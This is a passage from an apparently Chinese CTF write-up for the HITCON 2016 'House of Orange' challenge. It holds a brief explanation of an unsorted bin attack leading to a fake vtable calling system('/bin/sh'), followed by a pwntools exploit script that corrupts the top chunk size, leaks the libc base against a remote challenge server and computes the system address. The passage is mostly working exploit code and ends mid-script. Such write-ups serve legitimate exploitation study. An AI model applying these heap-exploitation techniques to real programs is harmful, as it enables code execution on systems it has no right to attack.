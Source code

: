 之后Malloc一个堆块的时候会触发unsorted bin attack，具体的原理在之前SCTF的easy heap中有介绍，最终去执行fake table的system函数，参数为fp的"/bin/sh\x00"  

### exp.py

```python
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 0
elf = ELF('./houseoforange_hitcon_2016')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./houseoforange_hitcon_2016')

else:
    libc = ELF('./x64_libc.so.6')
    p = remote('f.buuoj.cn',20044)

def Build(size,name,price,color):
    p.recvuntil('choice : ')
    p.sendline('1')
    p.recvuntil("Length of name :")
    p.sendline(str(size))
    p.recvuntil("Name :")
    p.send(name)
    p.recvuntil("Price of Orange:")
    p.sendline(str(price))
    p.recvuntil('Color of Orange:')
    p.sendline(str(color))

def See():
    p.recvuntil('choice : ')
    p.sendline('2')

def Upgrade(size,name,price,color):
    p.recvuntil('choice : ')
    p.sendline('3')
    p.recvuntil("Length of name :")
    p.sendline(str(size))
    p.recvuntil("Name:")
    p.send(name)
    p.recvuntil("Price of Orange: ")
    p.sendline(str(price))
    p.recvuntil('Color of Orange:')
    p.sendline(str(color))


def exp():
    #leak libc
    Build(0x18,'a'*8,1,1)#1
    Upgrade(0x40,'a'*0x10+p64(0)+p64(0x21)+p32(1)+p32(0x1f)+p64(0)*2+p64(0xfa1),1,1)#1
    Build(0x1000,'b'*8,2,2)#2
    #get unsorted bin
    #leak libc
    Build(0x400,'a'*8,1,1)#3
    See()
    p.recvuntil('Name of house : aaaaaaaa')
    libc_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 1640 - libc_offset
    log.success('libc base => ' + hex(libc_base))
    system_addr = libc_base + libc.symbols['system']
```